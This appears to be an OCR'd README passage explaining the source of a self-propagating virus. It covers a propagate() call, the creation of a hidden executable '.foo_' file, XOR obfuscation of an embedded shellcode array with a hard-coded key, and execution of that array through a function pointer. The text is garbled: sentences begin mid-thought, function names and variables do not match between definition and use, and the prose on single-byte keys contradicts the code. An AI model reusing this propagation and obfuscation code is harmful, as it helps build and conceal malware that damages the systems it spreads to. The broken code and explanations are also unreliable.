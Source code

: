 This one seems pretty self explanatory
 
```c
propagate("./", argv[0]);
```

We call the ``propagate`` function for the propagation to start 

```c
if (first_run == 1)
{
execute("touch .foo_%s", original_executable);
execute("chmod +x .foo_%s", original_executable);
}
```

``.foo_<original_executable>`` using the ``execute`` function. It uses the ``original_executable`` variable to construct the filename.

executes a bash command to change the permissions of the hidden file created in the previous line to make it executable. It uses the ``original_executable`` variable to construct the filename.

## Obfuscation
The underlying idea behind XOR obfuscation is its use in  one-time pad. Given a plaintext represented in bits, if it is  XORed with a random key of equal length, then the resulting  encryption is perfectly secure. 


```c
_basic_xor(unsigned char* xorcode, size_t size) {
unsigned char key[] = { 0x69, 0x13, 0x37, 0xd1, 0x9a, 0x33, 0x42 };
size_t keylen = 7;
for (unsigned long i = OFFSET; i < END; i++) {
*(code + i) ^= key[i % keylen];
	}
}
```

the plaintext represents a malware, then one can encrypt the malware by using a key of equivalent length. However, this requires huge key sizes. As a  result, we use short key, single byte, and encrypt equivalent sized blocks. The use of a  single byte is known as single-byte XOR encoding  Due to short keys used in XOR encoding based obfuscation, there are various tools that can deobfuscate the malware or find the key. 

```c
unsigned char code[] = "\x55\x48\x89\xe5\x48\x83\xec\x10\xc7\x45\xfc\x22\x00\x00\x00\x8b\x45\xfc\x0f\xaf\x45\xf8\x8b\x45\xf8\x5d\xc3";

```

we declares a function  named ``encrypted``,  assigns the address of the ``code``  to the ``encrypted`` function

```c
int (*encrypted)() = (int(*)())code;

// obfuscate second code section using XOR
unsigned char* xorcode = code + sizeof(encrypted)/2 - 0x10;
// start of XOR instructions
basic_xor(xorcode, sizeof(xorcode));
// decrypt obfuscated code
basic_xor(xorcode, sizeof(xorcode));
```
